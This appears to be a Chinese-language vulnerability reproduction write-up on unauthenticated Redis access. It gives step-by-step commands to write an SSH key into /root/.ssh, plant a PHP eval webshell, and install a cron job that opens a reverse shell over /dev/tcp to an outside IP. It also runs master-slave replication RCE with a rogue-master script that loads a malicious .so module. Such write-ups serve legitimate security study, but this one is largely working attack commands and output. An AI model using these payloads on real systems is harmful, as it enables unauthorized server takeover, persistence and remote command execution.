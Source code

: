### 漏洞描述

Redis（Remote Dictionary Server )，即远程字典服务，是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。

Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。

### 利用条件

1. 没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网。
2. 没有设置密码认证（一般为空），可以免密码远程登录redis服务。

### 漏洞复现

#### 写入文件

原理就是在数据库中插入一条数据，将本机的公钥作为value,key值随意，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys,把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生一个授权的key。

写webshell也是同理，将一句话木马写入redis，再将缓冲数据文件保存到web目录下

默认缓冲数据存放地址

~~~
101.43.138.109:8080> config get dir
1) "dir"
2) "/data"
101.43.138.109:8080> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
~~~

准备好公钥文件

![image-20220309134226038](TyporaPicture/image-20220309134226038.png)

再把a.txt文件内容写入redis缓冲

~~~
cat a.txt | redis-cli -h 101.43.138.109 -p 8080 -x set key
注：-x 代表从标准输入读取数据作为该命令的最后一个参数。
~~~

更改rdb文件存储位置

~~~
101.43.138.109:8080> config set dir /root/.ssh
OK
101.43.138.109:8080> config set dbfilename authorized.keys
OK
101.43.138.109:8080> save
OK
~~~

查看authorized.keys文件，公钥已被写入。

![image-20220309140240730](TyporaPicture/image-20220309140240730.png)

写webshell

~~~
set webshell "\n\n\n\<?php @eval($_POST['shell']);?>\n\n\n"
save
~~~

![image-20220309140610262](TyporaPicture/image-20220309140610262.png)

还可以写计划任务反弹shell

~~~
set crontab "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/3.113.126.249/1234 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save
~~~

> redis 可以创建文件但无法创建目录，所以， redis 待写入文件所在的目录必须事先存在。

这种利用方式需要redis有写文件的权限，遇到下面这种情况就无法利用了。

![image-20220309135340278](TyporaPicture/image-20220309135340278.png)

#### 主从复制RCE

主从复制，是指将一台Redis服务器的数据，复制到其他的Redis服务器。前者称为主节点(master)，后者称为从节点(slave),数据的复制是单向的，只能由主节点到从节点。通过数据复制，Redis 的一个 master 可以挂载多个 slave，而 slave 下还可以挂载多个 slave，形成多层嵌套结构。所有写操作都在 master 实例中进行，master 执行完毕后，将写指令分发给挂在自己下面的 slave 节点。slave 节点下如果有嵌套的 slave，会将收到的写指令进一步分发给挂在自己下面的 slave

![image-20220309143646381](TyporaPicture/image-20220309143646381.png)

开启主从复制的方式

~~~
配置文件： 在从服务器的配置文件中加入：slaveof <masterip> <masterport>
启动命令： redis-server启动命令后加入 --slaveof <masterip> <masterport>
客户端命令： Redis服务器启动后，直接通过客户端执行命令：slaveof <masterip> <masterport>，则该Redis实例成为从节点。
~~~

Redis提供**主从模式：**使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

在Reids 4.x之后，Redis新增了**模块功能**，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。

> 很像mysql的UDF提权

在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过**FULLRESYNC**同步文件到从机上。然后在从机上加载so文件，我们就可以执行拓展的新命令了。

从原理上来看，主从复制需要两台redis，攻击者控制master，靶机设置为slaveof master。实际利用中可以用python脚本模拟redis服务。

exp地址 https://github.com/vulhub/redis-rogue-getshell

~~~
python3 redis-master.py -r 101.43.138.109 -p 8080 -L 101.43.138.109 -P 2333 -f RedisModulesSDK/exp/exp.so -c "whoami"
~~~

![image-20220309145213140](TyporaPicture/image-20220309145213140.png)

使用system.exec执行了命令

可以看到so文件被同步到了靶机

![image-20220309145529889](TyporaPicture/image-20220309145529889.png)

